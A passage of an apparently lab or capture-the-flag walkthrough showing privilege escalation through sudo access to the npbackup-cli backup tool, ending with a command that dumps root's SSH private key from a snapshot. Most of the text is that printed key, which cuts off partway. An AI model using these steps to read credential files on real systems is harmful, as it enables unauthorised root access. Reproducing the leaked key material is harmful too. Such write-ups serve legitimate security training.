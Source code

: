 Now using this conf file run another backup

```bash
sudo npbackup-cli -c npbackup.conf -b
```

Read the backup files inside these directories

```bash
sudo npbackup-cli -c npbackup.conf --ls
```

<figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

Looking the backuped file, our target became the root's private key.

Using the `dump` function from the cli tool we can dump a file inside the latest snapshot.

<pre class="language-bash"><code class="lang-bash">sudo npbackup-cli -c npbackup.conf --dump /root/.ssh/id_rsa

<strong>-----BEGIN OPENSSH PRIVATE KEY-----
</strong>b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEA9apNjja2/vuDV4aaVheXnLbCe7dJBI/l4Lhc0nQA5F9wGFxkvIEy
VXRep4N+ujxYKVfcT3HZYR6PsqXkOrIb99zwr1GkEeAIPdz7ON0pwEYFxsHHnBr+rPAp9d
EaM7OOojou1KJTNn0ETKzvxoYelyiMkX9rVtaETXNtsSewYUj4cqKe1l/w4+MeilBdFP7q
kiXtMQ5nyiO2E4gQAvXQt9bkMOI1UXqq+IhUBoLJOwxoDwuJyqMKEDGBgMoC2E7dNmxwJV
XQSdbdtrqmtCZJmPhsAT678v4bLUjARk9bnl34/zSXTkUnH+bGKn1hJQ+IG95PZ/rusjcJ
hNzr/GTaAntxsAZEvWr7hZF/56LXncDxS0yLa5YVS8YsEHerd/SBt1m5KCAPGofMrnxSSS
pyuYSlw/OnTT8bzoAY1jDXlr5WugxJz8WZJ3ItpUeBi4YSP2Rmrc29SdKKqzryr7AEn4sb
JJ0y4l95ERARsMPFFbiEyw5MGG3ni61Xw62T3BTlAAAFiCA2JBMgNiQTAAAAB3NzaC1yc2
EAAAGBAPWqTY42tv77g1eGmlYXl5y2wnu3SQSP5eC4XNJ0AORfcBhcZLyBMlV0XqeDfro8
WClX3E9x2WEej7Kl5DqyG/fc8K9RpBHgCD3c+zjdKcBGBcbBx5wa/qzwKfXRGjOzjqI6Lt
SiUzZ9BEys78aGHpcojJF/a1bWhE1zbbEnsGFI+HKintZf8OPjHopQXRT+6pIl7TEOZ8oj
thOIEAL10LfW5DDiNVF6qviIVAaCyTsMaA8LicqjChAxgYDKAthO3TZscCVV0EnW3ba6pr
QmSZj4bAE+u/L+Gy1IwEZPW55d+P80l05FJx/mxip9YSUPiBveT2f67rI3CYTc6/xk2gJ7
cbAGRL1q+4WRf+ei153A8UtMi2uWFUvGLBB3q3f0gbdZuSggDxqHzK58UkkqcrmEpcPzp0
0/G86AGNYw15a+VroMSc/FmSdyLaVHgYuGEj9kZq3NvUnSiqs68q+wBJ+LGySdMuJfeREQ
EbDDxRW4hMsOTBht54utV8Otk9wU5QAAAAMBAAEAAAGBAJYX9ASEp2/IaWnLgnZBOc901g
RSallQNcoDuiqW14iwSsOHh8CoSwFs9Pvx2jac8dxoouEjFQZCbtdehb/a3D2nDqJ/Bfgp
4b8ySYdnkL+5yIO0F2noEFvG7EwU8qZN+UJivAQMHT04Sq0yJ9kqTnxaOPAYYpOOwwyzDn
zjW99Efw9DDjq6KWqCdEFbclOGn/ilFXMYcw9MnEz4n5e/akM4FvlK6/qZMOZiHLxRofLi
1J0Elq5oyJg2NwJh6jUQkOLitt0KjuuYPr3sRMY98QCHcZvzUMmJ/hPZIZAQFtJEtXHkt5
UkQ9SgC/LEaLU2tPDr3L+JlrY1Hgn6iJlD0ugOxn3fb924P2y0Xhar56g1NchpNe1kZw7g
prSiC8F2ustRvWmMPCCjS/3QSziYVpM2uEVdW04N702SJGkhJLEpVxHWszYbQpDatq5ckb
SaprgELr/XWWFjz3FR4BNI/ZbdFf8+bVGTVf2IvoTqe6Db0aUGrnOJccgJdlKR8e2nwQAA
AMEA79NxcGx+wnl11qfgc1dw25Olzc6+Jflkvyd4cI5WMKvwIHLOwNQwviWkNrCFmTihHJ